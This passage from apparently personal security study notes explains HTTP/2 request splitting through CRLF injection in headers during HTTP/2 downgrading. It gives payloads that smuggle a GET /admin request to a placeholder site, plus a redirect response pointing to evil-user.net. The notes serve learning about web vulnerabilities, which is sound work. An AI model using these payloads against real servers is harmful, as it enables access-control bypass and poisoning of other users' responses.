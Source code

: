 *Response*
```http
:status	301
location	https://evil-user.net/poison?://vulnerable-website.com/anything/
```

## HTTP/2 request splitting

When we looked at [Response queue poisoning](Exploiting%20Advanced%20Request%20Smuggling.md#Response%20queue%20poisoning), the split occurred inside the message body, but when HTTP/2 downgrading is in play, you can also cause this split to occur in the headers instead.

```http
:method	GET
:path	/
:authority	vulnerable-website.com
foo	
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

This approach is more versatile because you aren't dependent on using request methods that are allowed to contain a body. This is also useful in cases where the `content-length` is validated and the back-end doesn't support chunked encoding.

>[!warning] Account for front-end rewriting!
>To split a request in the headers, you need to understand how the request is rewritten by the front-end server and account for this when adding any HTTP/1 headers manually. For example, you need to ensure that both requests received by the back-end contain a `Host` header.
>
>Some front-end servers **append** the new `Host` header to the end of the current list of headers. Considering the request above, the results would be:
>```http
>GET / HTTP/1.1
>foo: bar
>
GET /admin HTTP/1.1
Host: vulnerable-website.com
Host: vulnerable-website.com
>```
In this case, you need to position your injected `Host` header so that it ends up in the first request once the split occurs:
>```http
>:method	GET
:path	/
:authority	vulnerable-website.com
foo	
bar\r\n
Host: vulnerable-website.com\r\n
\r\n
GET /admin HTTP/1.1
>```
>You will also need to adjust the positioning of **any internal headers** that you want to inject in a similar manner.

